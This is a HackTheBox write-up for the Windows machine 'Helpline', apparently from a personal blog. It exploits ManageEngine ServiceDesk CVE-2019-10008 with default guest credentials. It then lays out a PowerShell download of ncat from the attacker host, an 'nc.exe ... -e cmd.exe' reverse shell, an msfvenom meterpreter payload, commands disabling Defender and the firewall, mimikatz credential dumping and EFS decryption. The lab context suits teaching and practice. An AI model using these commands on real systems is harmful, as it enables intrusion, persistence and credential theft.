 ```yaml
---
title: "HackTheBox - WriteUp 13"
date: 2019-07-13T22:31:09+08:00
description: "HackTheBox 练手 - Helpline - Encrypted File System on Windows"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Helpline

Difficulty: 8.2/10

Nmap:135,445(SMB),8080(Tomcat Service Desk),5985(Windows Remote Management Port),49667(MSRPC Support)

# User

First, we know there's port 8080, the footer showed us this software version is Zoho ManageEngine ServiceDesk v9.3, we use searchsploit, and find Exploit-DBID: 46674. Access [the blog](https://flameofignis.com/en/vuln/CVE-2019-10008) this text file mentioned, do some modification. With the default `guest:guest` credentials and modified cookies here, you're able to access as administrator of ServiceDesk, download the PoC, and change the host `host="10.10.10.132:8080"`, that's all.

After that, create Technician Account as you want and give the SDAdmin privilege, this will help you maintain the administrator privilege even you get logged out.

Prepare a static-linked binary called `ncat.exe`, and use the following two commands to create two custom triggers when met the condition you set. Don't forget to set up a web server first.

First:  `powershell -exec bypass -c Invoke-WebRequest http://10.10.14.6:8080/ncat.exe -OutFile nc.exe`

Second: `cmd /c nc.exe 10.10.14.6 4455 -e cmd.exe`

Now you'll get the shell as `nt authority/system`, however, since this box enabled Encrypted NTFS (EFS in abbr), you can't read the flag now. We can only know from the prompt at the beginning that this server is based on Windows 10 17763(Build 1809), which might also be Windows Server 2016.

Use `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=7777 -f exe > test.exe` to generate a meterpreter trojan for preparation.

Run `powershell` in the shell you just got, and execute the following command to disable Windows defender and firewall:

```powershell
PS > Set-MpPreference -DisableRealtimeMonitoring $true 
PS > Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Don't try to enable RDP, group policy prevent you from logged in.

Upload meterpreter trojan, then execute, access it via `exploit/multi/handler` with the same payload and payload param. It would be perfect if you upload the whole `mimikatz` binary to the victim now.

## Read the user flag

### RDP/VNC

In meterpreter shell, run `migrate 2878` to migrate the meterpreter core to a process owned by leo, then `msfvenom` generate a `vncinject` trojan, upload and run. You can directly access the user.txt flag.

### Hardcore: CLI Only

Get another meterpreter shell using the same method above, in order to maintain the privilege of `nt authority/system`.

First use `$Env:PSModulePath` in powershell to check whether to save our powershell script. Following [the readme in Powersploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) , Then run `Get-RegistryAutoLogon`, you'll get the password of the leo.

OR, you can also use `mimikatz` built inside the meterpreter with `load kiwi`, issue `creds_all`, or issue `sekurlsa::logonpasswords` in pure mimikatz you'll get sha1 hash of leo's password.

Then just follow the direction of mimikatz wiki [How to decrypt EFS Files - Mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files), you'll get User flag.

# Root

Grab you shell, `get-eventlog security | export-clixml C:\temp\opt1.xml`, download the output system security eventlog, `cat opt1.xml | grep -n tolu | grep -n net` in your local bash, you'll find the password of tolu. Use tolu's password, follow the mimikatz wiki, you can decrypt `admin-pass.xml`, and find a string called `SecureString` in powershell, you should use the following commnad to decrypt it and get the plaintext password, run it with leo's account using the meterpreter shell you just got.

```powershell
$SecuredPWD = Get-Content C:\fakepath\admin-pass.xml
$SecureStringAsPlainText = $SecuredPWD | ConvertTo-SecureString
$cred = new-object System.Management.Automation.PSCredential 'HELPLINE\Administrator',$SecureStringAsPlainText
$cred.GetNetworkCredential() | fl
```

Then,since you have the plaintext credential of administrator, decrypt the root flag again using the same method, you'll get it.


(END)

# Referrence

- https://flameofignis.com/en/vuln/CVE-2019-10008
- https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
- https://www.hackingarticles.in/post-exploitation-remote-windows-password/
- https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- https://eventlogxp.com/blog/exporting-event-logs-with-windows-powershell/
- https://stackoverflow.com/questions/46547174/is-there-a-way-to-use-convertfrom-securestring-and-convertto-securestring-with-a
- https://www.itprotoday.com/powershell/powershell-makes-security-log-access-easy
- https://www.youtube.com/watch?v=ob9SgtFm6_g  IPPSEC-Reel-HacktheBox
